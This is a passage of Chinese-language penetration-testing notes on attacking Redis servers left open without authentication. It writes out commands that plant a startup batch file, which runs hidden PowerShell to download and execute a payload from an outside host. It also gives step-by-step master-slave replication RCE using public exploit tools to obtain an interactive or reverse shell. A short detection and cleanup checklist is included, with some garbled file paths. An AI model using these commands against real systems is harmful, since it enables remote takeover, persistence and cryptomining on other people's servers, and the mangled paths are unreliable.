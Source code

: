 ```bash
# 写入批处理文件到Administrator用户的开机启动目录
# 使用powershell远程下载执行我们的程序
config set dir "C:/Users/Administrator/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/startup/"
config set dbfilename add.bat
set xx "\r\n\r\npowershell.exe -nop -w hidden -c \"IEX((New-ObjectNet.WebClient).DownloadString('http://xxx.xx.xxxx/add'))\"\r\n\r\n"
save
```



**拓展攻击方法**
- 信息泄漏(很多redis没设置密码，寻找敏感信息)
- 配合ssrf
- 本地lua代码
- 本地提权
- 等等

###### 5.写入挖矿进程


###### nmap检测
```bash
nmap -p 6379 --script redis-info 192.168.0.100
#地址:https://svn.nmap.org/nmap/scripts/redis-info.nse
```
<img src="https://image.geoer.cn/20200525225557672_1832619508.png"/>


######  安全检查
```bash
#1.查看redis运行的用户权限
ps -aux |grep redis

#2.查看所有用户ssh验证文件是否异常
/user/.ssh/authorized_keys

#3.查看crontab
/var/spoof/cron/

#4.查看crontab的日志
tail /var/log/cron
```



#### 二、Redis-RCE
利用用前提是获取redis访问权限,也就是基于redis未授权访问

###### 1.redis主从同步rce
>使用范围redis 4.x-5.0.5

在Redis 4.x之后，Redis新增了模块功能，通过外部拓展，可以在redis中实现一个新的Redis命令
```bash
git clone https://github.com/Ridter/redis-rce.git
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git

# 编译so文件
cd RedisModules-ExecuteCommand/
make

# 运行sss
python redis-rce.py -r <目标地址>  -L <本机地址> -f module.so
# 执行成功后可以选择生成一个交互的shell，或者重新反弹一个shell
```
